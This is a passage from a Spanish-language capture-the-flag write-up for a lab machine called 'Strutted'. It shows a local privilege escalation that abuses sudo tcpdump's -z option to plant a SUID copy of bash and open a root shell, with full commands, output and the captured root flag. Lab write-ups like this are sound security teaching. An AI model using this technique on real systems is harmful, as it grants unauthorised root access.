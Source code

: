 ![UTMP]({{ "/images/Strutted/gtfobins.png" | relative_url }})

Tan sólo tenemos que:

1. Definir un comando
2. Crear un archivo temporal
3. Hacer echo al comando para mandarlo al archivo
4. Hacer ejecutable el archivo
5. Ejecutar tcpdump con privilegios de root (el `-z` ejecuta un comando sobre el archivo cunado se crea un archivo de captura)

En el siguiente path, voy a copiar el binario `/bin/bash` y le pongo permisos de `SUID`:

```bash
james@strutted:~$ COMMAND='cp /bin/bash /tmp/jsjsjs; chmod 4777 /tmp/jsjsjs'                            
james@strutted:~$ echo "$COMMAND" > $TF                                                                 
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root                          
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ cd /tmp/
james@strutted:/tmp$ ls
jsjsjs
```

Y tan fácíl como ejecutar `./jsjsjs -p` para obtener una shell como root:

```bash
james@strutted:/tmp$ ./jsjsjs -p                                                                        
jsjsjs-5.1# whoami
root
jsjsjs-5.1# cd /root
jsjsjs-5.1# ls
root.txt
jsjsjs-5.1# cat root.txt
c0172e47c8b0bcdeb8fb57b6e1653d3c
```


###### Agradecimiento

Si lees esto, gracias por llegar hasta aquí!, si existen dudas, comentarios y correcciones (que son más que bienvenidas) contáctame con confianza, que siempre he dicho que la ciberseguridad es esfuerzo conjunto. 

En caso que no los vea, buenos días, buenas tardes y buenas noches. Happy Hacking!.


